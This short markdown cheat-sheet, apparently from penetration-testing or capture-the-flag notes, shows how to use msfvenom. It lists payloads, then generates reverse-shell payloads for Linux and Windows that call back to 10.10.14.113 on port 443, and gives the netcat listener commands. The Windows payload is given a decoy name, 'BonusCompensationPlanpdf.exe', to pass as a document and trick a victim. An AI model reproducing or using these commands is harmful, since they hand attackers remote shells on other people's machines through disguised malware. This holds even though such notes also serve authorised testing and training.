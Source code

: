 ## msfvenom

Payload generator for Metasploit Framework. to list all available payloads, you can use the following command:

```shell
msfvenom -l payloads
```

## Creating a Stageless Payload (Linux)

```shell
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f elf > createbackup.elf
```

### Listening for the connection

```shell
sudo nc -lvnp 443
```

when target machine executes the payload, you will get a reverse shell connection.

## Creating a Staged Payload (Windows)

```shell
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f exe > BonusCompensationPlanpdf.exe
```

### Listening for the connection

```shell
sudo nc -lvnp 443
```

when target machine executes the payload, you will get a reverse shell connection.
